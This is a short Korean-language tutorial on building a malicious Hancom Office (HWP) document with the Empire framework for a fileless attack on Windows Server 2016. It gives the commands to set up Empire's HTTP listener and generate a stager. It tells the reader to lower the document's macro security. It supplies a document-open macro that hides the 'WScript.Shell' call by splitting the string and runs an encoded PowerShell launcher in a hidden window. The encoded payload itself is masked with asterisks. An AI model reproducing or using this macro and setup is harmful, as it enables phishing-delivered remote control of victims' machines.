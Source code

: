 # 엠파이어(Empire)를 사용해 악성한글문서(Hwp)만들어 파일리스(Fileless) 공격하기

- 공격 서버 :smiling_imp: : 칼리 리눅스(Kali Linux amd64)
- 공격 대상 :skull: : 윈도우 서버 2016 (Windows Server 2016)

### 1. :smiling_imp: 엠파이어(Empire) 설치

```
git clone https://github.com/EmpireProject/Empire.git
cd Empire
sudo setup/install.sh
```

### 2. :smiling_imp: 엠파이어 실행 및 세팅

```
./empire
listeners
uselistener http
set Name something
execute
back
usestager windows/launcher_bat
set Listener something
generate
```

### 3. :smiling_imp: 악성 한글 문서 제작

1) 도구 > 보안 설정 > 보안수준 [낮음] 설정
2) 스크립트 매크로 > 실행 > 코드 편집
3) 항목 > Document / Open

```
function OnDocument_Open()
{
try{
  var ws=new ActiveXObject("W"+ "S"+ "c"+ "ri"+ "p"+ "t"+ ".S" +"he" +"ll");
  // launcher.bat의 powershell 실행 코드
  var ps="powershell -noP -sta -w 1 -enc *****"
  wsh.Run(ps,0);
}catch(err){}
```
